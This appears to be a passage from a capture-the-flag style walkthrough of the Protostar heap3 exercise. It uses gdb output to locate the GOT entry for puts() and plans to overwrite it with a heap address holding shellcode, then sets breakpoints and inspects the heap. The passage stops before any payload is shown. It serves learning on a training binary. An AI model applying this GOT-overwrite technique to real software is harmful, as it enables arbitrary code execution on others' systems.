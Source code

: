 If you look closely, you will notice that the **printf()** has been replaced with **puts()** due to some optimization when compile the program. `plt` stands for **Procedure Linkage Table (PLT)**. If we disassemble `0x8048790 <puts@plt>`, we will get the address to the **GOT entry** for **puts()**. 

```shell
(gdb) disassemble 0x8048790
Dump of assembler code for function puts@plt:
0x08048790 <puts@plt+0>:        jmp    DWORD PTR ds:0x804b128
0x08048796 <puts@plt+6>:        push   0x68
0x0804879b <puts@plt+11>:       jmp    0x80486b0
End of assembler dump.
(gdb) x 0x804b128
0x804b128 <_GLOBAL_OFFSET_TABLE_+64>:   0x08048796
```

So we want to overwrite the contents of `0x804b128` in the **GOT**, currently `0x08048796`, with the address to **winner()**. But how? 

The answer is simple, we will provide a shellcode and place that onto the heap. Then we will replace the address in the **GOT entry** with that exact memory location on the heap to run our shellcode.

To understand the program better, I will set breakpoints at the address of **malloc()**, **strcpy()**, **free()**, and **puts()**.

```shell
(gdb) break *0x8048ff2
Breakpoint 1 at 0x8048ff2: file common/malloc.c, line 3211.
(gdb) break *0x8048750
Breakpoint 2 at 0x8048750
(gdb) break *0x8049824
Breakpoint 3 at 0x8049824: file common/malloc.c, line 3583.
(gdb) break *0x8048790
Breakpoint 4 at 0x8048790
```

Run the program with some recognizable strings:

```shell
(gdb) r AAAAAAAAAAAA BBBBBBBBBBBB CCCCCCCCCCCC
Starting program: /opt/protostar/bin/heap3 AAAAAAAAAAAA BBBBBBBBBBBB CCCCCCCCCCCC

Breakpoint 1, malloc (bytes=32) at common/malloc.c:3211
3211    common/malloc.c: No such file or directory.
        in common/malloc.c
```

We've hit the first breakpoint. Continue for the first **maloc()** is called so that our heap is ready:

```shell
(gdb) c
Continuing.

Breakpoint 1, malloc (bytes=32) at common/malloc.c:3211
3211    in common/malloc.c
(gdb) info proc map
process 1671
cmdline = '/opt/protostar/bin/heap3'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap3'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x804b000     0x3000          0        /opt/protostar/bin/heap3
         0x804b000  0x804c000     0x1000     0x3000        /opt/protostar/bin/heap3
         0x804c000  0x804d000     0x1000          0           [heap]
...
```
